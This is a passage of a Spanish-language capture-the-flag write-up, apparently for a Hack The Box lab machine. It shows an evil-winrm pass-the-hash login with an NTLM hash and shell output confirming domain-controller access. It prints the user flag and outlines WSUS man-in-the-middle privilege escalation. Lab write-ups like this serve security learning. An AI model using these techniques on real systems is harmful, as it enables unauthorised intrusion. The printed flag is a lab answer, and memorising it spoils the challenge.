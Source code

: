 ```null
evil-winrm -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5' -i 10.10.11.175

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sflowers\Documents> ipconfig

Windows IP Configuration


Ethernet adapter vEthernet (vSwitch):

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 172.16.20.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 0.0.0.0

Ethernet adapter Ethernet0 3:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::246
   IPv6 Address. . . . . . . . . . . : dead:beef::29b5:d8cc:891a:448a
   Link-local IPv6 Address . . . . . : fe80::29b5:d8cc:891a:448a%15
   IPv4 Address. . . . . . . . . . . : 10.10.11.175
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:b080%15
                                       10.10.10.2
*Evil-WinRM* PS C:\Users\sflowers\Documents> hostname
DC
```

Ahora ya no estoy en un contenedor si no directamente en el DC

Se puede visualizar la primera flag

```null
*Evil-WinRM* PS C:\Users\sflowers\Desktop> type user.txt
aa32f95ba6469ca8af48ef76587073dd
```

# Escalada

Buscando por exploits hacia el grupo WSUS Administrator, se puede ver que es posible realizar un Man-in-the-Middle en el que se envene el tráfico http (no cifrado), para así poder instalar otros recursos no intencionados y escalar privilegios.
